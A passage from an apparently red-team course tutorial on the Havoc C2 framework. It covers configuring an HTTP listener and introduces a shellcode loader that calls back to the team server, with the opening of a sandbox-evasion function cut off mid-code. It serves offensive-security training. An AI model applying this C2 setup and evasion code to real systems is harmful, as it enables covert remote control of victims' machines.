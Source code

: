 ![](/assets/imgs/havoc-c2/Pasted image 20240218201341.png)

From there, a few options will appear at the bottom of our screen. We'll click on `Add`.

![](/assets/imgs/havoc-c2/Pasted image 20240218201429.png)

A window will pop-up allowing us to create our listener. 

![](/assets/imgs/havoc-c2/Pasted image 20240218201559.png)

As can be seen in the above screenshot, we need to provide a name for our listener as well as the host/port we want to bind on. In our case, we have done the following :

* Name = `http-listener`
* Host = `10.250.0.16`
* Port = `80`

And of course, these values can be updated to your liking. The parameters we went through as of now are mandatory and must be filled in. However, depending on the environment we are red teaming in, we might require some of the other options. So, here's a quick explanation on the other options you might potentially use:

* `User Agent` : This option can be used to specify a custom *User Agent*. We will go over why this might be useful to us later on in the course.
* `Headers` : Same thing here, custom headers can be included in our packets.
* `Uris` : These are the Uri's Havoc will request when sending data back to our team server. Uri's will appear as the following : `/test`, `/news`, `/weather`, etc.
* `Host Header` : Custom host header.
* `Proxy Settings`: The proxy settings might be particularly useful to us if we know that our beacon will need to pass through a proxy to reach our team server. In some environments, connections must all pass through a proxy if the intention is to leave the intranet.

With our listener's info now filled, we can click on `Save`. If everything went correctly, you should see it at the bottom of your screen.

![](/assets/imgs/havoc-c2/Pasted image 20240218202848.png)

## Crafting our payload

It's now time to have, what we call, a shellcode loader at the ready. This shellcode loader is a binary that once executed on the target, will connect back to our team server and provide us with a way of remotely interacting with our target. Creating fancy shellcode loaders isn't in the scope for this particular course, so we'll keep things simple. The target that we will be using for our numerous tests is running a fully updated Windows 10 operating system with all security protections turned on. However, keep in mind that this loader is not guaranteed to work against all AntiVirus products. This being said, let's have a quick look at the loader that we will be using.

Update 2025: This loader no longer works. If *Cloud* based protection is active, it won't fly.

```
#include <windows.h>
#include <winhttp.h>
#include <iostream>
#include <vector>
#include <conio.h>

#pragma comment(lib, "winhttp.lib")
#pragma comment (lib, "Mswsock.lib")
#pragma comment (lib, "AdvApi32.lib")
#pragma comment(lib, "ntdll")

void BypassDynamicAnalysis()
{

	int tick = GetTickCount64();
	Sleep(5000);
	int tock = GetTickCount64();
```